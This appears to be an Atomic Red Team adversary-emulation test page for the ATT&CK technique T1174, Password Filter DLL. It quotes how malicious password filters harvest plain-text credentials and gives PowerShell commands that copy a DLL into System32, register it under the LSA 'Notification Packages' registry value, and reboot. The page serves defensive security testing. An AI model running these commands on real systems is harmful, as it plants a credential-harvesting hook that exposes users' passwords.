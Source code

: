 # T1174 - Password Filter DLL

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1174)

<blockquote>Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as dynamic link libraries (DLLs) containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts.

Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests
validation from each registered filter. Any potential changes cannot take effect until every registered filter
acknowledges validation.

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains.
To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter
would receive these plain-text credentials every time a password request is made. (Citation: Carnal Ownage Password
Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)

<br/>

## Atomic Test #1 - Install and Register Password Filter DLL

Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_dll | Path to DLL to be installed and registered | Path | PathToAtomicsFolder&#92;T1174&#92;src&#92;AtomicPasswordFilter.dll|

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```

#### Dependencies:  Run with `powershell`!

##### Description: AtomicPasswordFilter.dll must exist on disk at specified location (#{input_dll})

##### Check Prereq Commands:

```powershell
if (Test-Path #{input_dll}) {exit 0} else {exit 1} 
```

##### Get Prereq Commands:

```powershell
Write-Host "You must provide your own password filter dll"
```

<br/>
